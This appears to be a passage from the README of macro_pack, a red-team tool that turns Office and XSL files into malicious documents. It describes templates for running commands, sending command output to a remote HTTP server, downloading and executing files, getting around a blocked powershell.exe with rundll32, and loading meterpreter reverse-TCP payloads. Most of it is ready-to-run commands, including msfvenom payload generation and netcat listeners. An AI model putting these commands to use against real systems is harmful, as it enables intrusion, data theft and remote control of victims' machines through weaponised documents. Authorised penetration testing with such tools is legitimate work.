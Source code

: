### HELLO  
Just print a hello message and awareness about macro.  
Give this template the name or email of the author:  
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm```

### CMD
Execute a command.  
Give this template a command line  
  -> Example (pop calc.exe from and xslt file):  ```echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl```
  
### REMOTE_CMD
Execute a command line and send results to remote HTTP server.  
Give this template the server url and the command to run:

  -> Example:  ```echo "http://192.168.0.5:7777" "dir /Q C:" | macro_pack.exe -t REMOTE_CMD -o -G cmd.doc``` 
   
```bash
# Catch result with any webserver or netcat
nc -l -p 7777
```
            
### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run:  
  -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc```
 
 
### DROPPER_DLL
Download a DLL with another extension and run it using Office VBA.  
-> Example, load meterpreter DLL using Office:  

```batch
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
        
### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole:  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm``` 
 